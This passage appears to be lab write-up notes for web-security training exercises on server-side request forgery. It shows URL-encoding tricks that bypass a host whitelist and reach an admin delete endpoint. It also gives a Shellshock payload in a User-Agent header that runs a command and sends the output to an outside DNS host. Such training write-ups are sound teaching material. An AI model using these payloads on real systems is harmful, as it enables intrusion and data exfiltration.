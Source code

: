 Bypassing whitelist:

- Changing the hostname to localhost, we encounter "External stock check host must be stock.weliketoshop.net"

- Changing the hostname to `username:password@stock.weliketoshop.net`, our request is successful

- Changing the hostname to `localhost:80@stock.weliketoshop.net`, our request is successful

- Changing the hostname to `localhost:80#@stock.weliketoshop.net`, our request is unsuccessful with the same error message

- Changing the hostname to `localhost:80%23@stock.weliketoshop.net`, our request is unsuccessful with the same error message

- Changing the hostname to `localhost:80%25%32%33@stock.weliketoshop.net`, our request is unsuccessful but we get a different error message "Not Found"

- Using `stockApi=http%3A%2F%2Flocalhost:80%25%32%33@stock.weliketoshop.net%3A8080%2Fadmin` payload allows us to successfully bypass the whitelist

Strategy: Use HTTP basic authentication to set the admin panel URL along with `#` to treat stock.weliketoshop.net as an anchor to localhost:80 as seen [here](https://stackoverflow.com/questions/8192742/what-is-the-meaning-of-in-url-and-how-can-i-use-that) in order to run our SSRF exploit while bypassing the vulnerabilities

Solution: `stockApi=http%3A%2F%2Flocalhost:80%25%32%33@stock.weliketoshop.net%3A8080%2Fadmin/delete?username=carlos`

### Lab: Blind SSRF with Shellshock exploitation

Task: print out name of OS

Structure of shellshock vulnerability payloads found [here](https://www.exploit-db.com/docs/48112#:~:text=Shellshock%20is%20effectively%20a%20Remote,stored%20into%20an%20environment%20variable.)

Solution: There is a server vulnerable to SSRF and shellshock on 192.168.0.X. We first need to craft a shellshock payload before finding out the IP. We can craft such a payload `() { :;}; /usr/bin/nslookup $(whoami).BURP_COLLABORATOR_CLIENT_PAYLOAD`. Burp Collaborator Client can receive requests from its subdomains as well :). We can assume that the analytics software given in the lav makes a request to the internal vulnerable server using the parameters of our request which thereby triggers the shellshock payload.

Burp Intruder Request:

```
GET /product?productId=1 HTTP/1.1
Host: 0aaf007f049289f8c0c890a200ed0054.web-security-academy.net
Cookie: session=LMacyTCkPC2BQ3Ews7qvyTtDlcEYQ28s
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: () { :;}; /usr/bin/nslookup $(whoami).rojiev0przqxc7fdxnx1g7kbu20toi.burpcollaborator.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://192.168.0.§1§:8080
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close
```

